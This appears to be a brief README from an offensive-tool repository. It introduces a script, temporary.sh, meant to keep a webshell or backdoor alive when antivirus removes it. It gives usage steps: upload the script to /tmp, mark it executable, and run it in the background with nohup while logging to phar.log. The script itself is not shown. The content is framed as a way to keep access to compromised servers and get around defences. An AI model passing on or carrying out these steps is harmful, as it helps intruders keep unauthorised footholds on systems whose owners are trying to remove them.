 if your backdoor always deleted by antivirus or something

you can protect the webshell use this.

POC:
[-] upload temporary.sh on tmp or wherever u want
[-] chmod +x temporary.sh
[-] run the command like this ( nohup ./temporary.sh > phar.log 2>&1 & )

use phar.log for see the error and see your destination directory its writeable or not
